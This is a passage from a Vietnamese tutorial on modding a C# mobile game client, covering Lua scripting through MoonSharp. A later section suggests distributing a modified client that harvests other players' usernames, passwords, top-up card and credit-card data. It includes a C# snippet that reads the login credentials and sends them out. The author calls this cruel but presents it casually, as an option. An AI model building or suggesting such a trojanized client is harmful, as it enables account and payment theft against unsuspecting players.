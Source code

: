 Trong game vẫn còn rất rất nhiều thứ mà mình không thể làm hết được, tất cả đều
trông chờ vào khả năng của bạn đấy!

## 6. Vài điều có thể bạn không nghĩ tới

### Thêm scripting

Phương pháp này dành cho những ai muốn mở rộng, tựa như scripting trong **World
of Warcraft** hay mấy tool hack trong **LMHT** vậy. Tức là bạn sử dụng một ngôn
ngữ khác thêm vào để làm script giúp hack/mod game dễ hơn nữa & được sử dụng
rộng rãi hơn.

Ở đây mình ví dụ về **Lua**, ngôn ngữ khá phổ biến trong lập trình game mobile
vừa nhẹ mà lại rất nhanh. Có hai gói package dành cho .NET khá hay đó là
[MoonSharp](http://www.moonsharp.org/) và [NLua](http://nlua.org), hoặc có thể
sử dụng cả **Lua CAPI** lấy từ [source](https://www.lua.org/download.html).

Ví dụ **MoonSharp**, bạn chỉ cần add vào reference và thêm `using`

```cs
using MoonSharp.Interpreter;
```

Sau đấy nạp code **Lua** và viết wrap là xong (hơi khó khăn một tí).

```lua
MovePoint:MovePoint(x, y)
hp = Char.myCharz().cHP
```

### Biến game thành công cụ hack người khác

Cái này khá tàn ác rồi...

- Bạn có thể hack bất kỳ ai sử dụng phiên bản của bạn, nhưng mình nghĩ việc
  decompile trở lại là quá dễ dàng trừ khi bạn sử dụng các ngôn ngữ biên dịch hệ
  thống như C/C++, Rust để viết library add vào.
- Bất kỳ ai đọc qua post này cũng sẽ biết mà tránh, nhưng số lượng user lúc nào
  cũng đông hơn dev cả, đành chịu.

Vậy nó bao gồm những gì? Không cần sâu sắc mấy, chỉ cần lấy thông tin người
dùng, tài khoản, mật khẩu, thông tin thẻ nạp, thẻ tín dụng... bla... bla... :v

Đối với lấy thông tin tài khoản thì khá dễ, bạn chỉ cần một database để nhận dữ
liệu & sử dụng các thư viện trong **C#** để kết nối hoặc gửi mail cũng được =]]

```cs
var user = GameCanvas.getUsername();
var pass = GameCanvas.getPassword();
client.SendAccount(user, pass);
```

Dài dòng quá, đến đây là kết thúc được rồi nhé!

# FAQ
